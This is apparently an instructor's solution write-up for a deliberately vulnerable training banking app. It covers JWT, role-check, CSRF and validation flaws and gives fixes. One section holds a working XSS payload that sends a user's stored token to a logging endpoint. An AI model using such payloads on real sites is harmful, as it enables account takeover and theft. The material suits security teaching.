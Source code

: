 # Bergbroker - Solution

## Access Control

### Vertical

Vertical Access Control limits functionality per user. This is utterly broken in several places:

The endpoint responsible for refreshing access tokens does not verify the refresh tokens signature, it merely decodes it:

```js
const valid = jwt.decode(refresh_token);

if (!valid) return res.sendStatus(401);
```

Instead, it should verify the signature (example code):

```js
let valid;
try {
    valid = jwt.verify(refresh_token, REFRESH_SECRET);
    
    if (!valid) throw new Error("No token");
} catch (e) {
    return res.sendStatus(401);
}
```

Additionally, the refresh token lasts a whole 30 seconds: (which should guide the student in the correct direction)

```js
const ACCESS_TOKEN_TTL = 60 * 60; // 60 minutes
const REFRESH_TOKEN_TTL = 30; // 30 days
```

This can be fixed by just lengthening the tokens TTL:

```js
const ACCESS_TOKEN_TTL = 60 * 60; // 60 minutes
const REFRESH_TOKEN_TTL = 30 * 24 * 60 * 60; // 30 days
```

### Horizontal

Horizontal Access Control limits functionality per role. This is also severely broken:

The middleware responsible for checking the users role uses `filter` instead of `find`, which just means that it will always return an array, even if the user is not found:

```js
export const requireRoles = (roles) => (req, res, next) => {
    if (!req.user.roles.filter((role) => roles.includes(role)))
        return res.sendStatus(403);

    next();
};
```

This can be fixed by using `find` instead:

```js
export const requireRoles = (roles) => (req, res, next) => {
    if (!req.user.roles.find((role) => roles.includes(role)))
        return res.sendStatus(403);

    next();
};
```

As an easter-egg, the `/actuator/heapdump` endpoint allows any user to create heap dumps. See [this talk](https://media.ccc.de/v/38c3-wir-wissen-wo-dein-auto-steht-volksdaten-von-volkswagen) why this is _incredibly_ secure and should be common practice.

## Cross-site scripting (XSS)

## Cross-site request forgery (CSRF)

The application issues valid CSRF tokens, but never actually checks them. This can be fixed by mapping the middleware to the correct path:

```js
brokerRouter.post("/csrf", (req, res, next) => {
```

should actually be:

```js
brokerRouter.post((req, res, next) => {

// or

brokerRouter.post("*", (req, res, next) => {
```

It should be noted that while this theoretically makes CSRF attacks possible, credentials are not stored in cookies, so the impact is limited.

## Validation Issue

Amount validation is missing from the `/transfer` endpoint, negative transfers are possible.

Fix:

```js
if (amount <= 0)
    return res.status(400).json({ error: "Invalid amount" });
```

## Injection / XSS

The following leads to XSS when clicking a transaction:
See also: [xss-image.rest](xss-image.rest)

```http
POST {{baseurl}}/broker/transfer
Authorization: Bearer {{access_token}}
Content-Type: application/json

{
    "peer": "admin",
    "amount": 1,
    "image": "javascript:fetch('<http://localhost:9090/log',{method:'POST',body:localStorage.getItem('token')}>);",
    "csrf": "{{csrfRequest.response.body.$.csrf}}"
}
```

Without using this javascript: url-pattern, an attacker can still de-anonymize our users by using external urls.

## Client issues

When manually editing the localStorage to obtain the "admin" role, the user can access the `/admin/users` page.
On this page, the user can see all users and their roles.
When the access control vulnerability is fixed, the user is rewarded with the password of the "john" user.
